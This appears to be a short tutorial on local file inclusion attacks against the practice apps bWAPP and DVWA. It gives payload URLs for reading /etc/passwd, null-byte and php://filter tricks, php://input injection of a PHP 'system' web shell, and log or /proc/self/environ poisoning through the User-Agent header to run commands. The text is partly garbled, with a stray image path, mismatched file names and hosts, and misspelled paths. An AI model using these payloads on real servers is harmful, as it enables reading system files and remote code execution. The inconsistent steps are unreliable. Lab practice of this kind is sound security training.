 LFI

Basic local file inclusion

To perform basic attacks manipulate

http://192.168.1.101/bWAPP/rlfi.php?language=lang_en.php&action=go into 192.168.1.101/bWAPP/flfi.php?language=/etc/passwd

null byte:

 /etc/passwd%00
 
 Base64 encoded

 Now there is another way to exploit LFI when the security level is high and you are unable to view the PHP file content, and then use the following PHP function.

http://192.168.1.101/bWAPP/rlfi.php?language= php://filter/read=convert.base64-encode/resource=/etc/passwd



Use php://input

PHP Input

 Using PHP input function we will execute injected PHP code to exploit LFI vulnerability. With the help of hackbar I am going to perform this task in which first we need to load the URL of the targeted web page as you can see in the given screenshot.

http://192.168.1.101/bWAPP/rlfi.php?language=lang_en.php&action=go

Now manipulate above URL using PHP input function

http://192.168.1.101/bWAPP/rlfi.php?language=php://input&cmd=ls

 Then select the check box to enable Post data which will forward the post request and add cmd comment in given text area<?php system($_GET[‘cmd’]); ?>as shown in following screenshot, finally click on execute.

This will show directories of victim PC.


proc/self/version:



If the server is outdated then to exploit it through LFI we can include proc/self/environ file that stores User_Agent where we will place our PHP code for executing CMD command.

http://192.168.1.102/dvwa/vulnerabilities/fi/?page=proc/self/environ

Add cmd comment <?php system($_GET[‘cmd’]); ?> inside user_Agent and send the request with GET parameter  192.168.1.8/lfi/lfi.php?file=/var/www/apachae2/access.log&cmd=id as shown in the below image. 

